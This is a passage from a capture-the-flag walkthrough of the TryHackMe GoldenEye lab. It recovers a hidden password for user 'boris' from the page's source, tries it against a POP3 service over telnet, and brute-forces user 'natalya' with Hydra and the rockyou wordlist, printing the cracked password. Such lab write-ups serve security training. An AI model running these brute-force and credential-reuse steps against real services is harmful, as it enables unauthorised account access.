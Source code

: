 ```js
    var char = text.slice(-1);
    if (char === "<") isTag = true;
    if (char === ">") isTag = false;
    if (isTag) return type();
    setTimeout(type, 60);
  })();
}
```

`Boris`

5. Who needs to make sure they update their default password?

[https://gchq.github.io/CyberChef/#recipe=From_HTML_Entity()&input=JiM3MzsmIzExMDsmIzExODsmIzEwNTsmIzExMDsmIzk5OyYjMTA1OyYjOTg7JiMxMDg7JiMxMDE7JiM3MjsmIzk3OyYjOTk7JiMxMDc7JiM1MTsmIzExNDs](<https://gchq.github.io/CyberChef/#recipe=From_HTML_Entity()&input=JiM3MzsmIzExMDsmIzExODsmIzEwNTsmIzExMDsmIzk5OyYjMTA1OyYjOTg7JiMxMDg7JiMxMDE7JiM3MjsmIzk3OyYjOTk7JiMxMDc7JiM1MTsmIzExNDs>)

`InvincibleHack3r`

6. Whats their password?
7. Now go use those credentials and login to a part of the site.

## Task 2 Its mail time...

Onto the next steps..

1. Take a look at some of the other services you found using your nmap scan. Are the credentials you have re-usable?

```
bibo318@parrot:~/CTFs/tryhackme/GoldenEye$ telnet 10.10.74.5 55007
Trying 10.10.74.5...
Connected to 10.10.74.5.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER
+OK
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
quit
+OK Logging out
Connection closed by foreign host.
```

3. If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?

```
bibo318@parrot:~/CTFs/tryhackme/GoldenEye$ hydra -l natalya -P /usr/share/wordlists/rockyou.txt pop3://10.10.74.5:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 17:02:37
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 17:04:56
```
